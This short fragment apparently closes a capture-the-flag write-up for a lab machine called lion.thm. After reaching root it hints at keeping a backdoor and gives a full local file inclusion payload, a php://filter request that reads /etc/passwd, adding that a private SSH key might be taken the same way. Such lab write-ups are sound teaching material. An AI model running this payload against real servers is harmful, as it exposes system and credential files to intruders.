 <br />
#### Now you are root, Defend your title.<br />
P.S. If you are locked out and forgot to make a backdoor, here's food for thought:<br />
There's LFI on this address.<br />
`http://lion.thm:5555/?page=php://filter/convert.base64-encode/resource=../../../../etc/passwd`<br />
where, lion.thm is the IP of machine in hosts file. ;) (Maybe you can get id_rsa)

 
